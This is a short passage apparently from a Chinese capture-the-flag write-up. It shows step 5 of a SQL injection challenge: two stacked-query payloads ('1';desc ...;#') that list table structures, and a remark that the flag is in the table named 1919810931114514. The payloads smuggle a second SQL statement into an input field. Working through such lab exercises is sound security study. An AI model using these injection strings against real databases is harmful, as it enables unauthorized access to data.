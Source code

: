 ![dc608153d3e4ecba07040f11ac39d7ca.png](img/682428048416ece5bcef883362171101.png)

5.分别查看两个表结构

1';desc `1919810931114514`;#

1';desc `words`;#

发现flag存在于表1919810931114514中
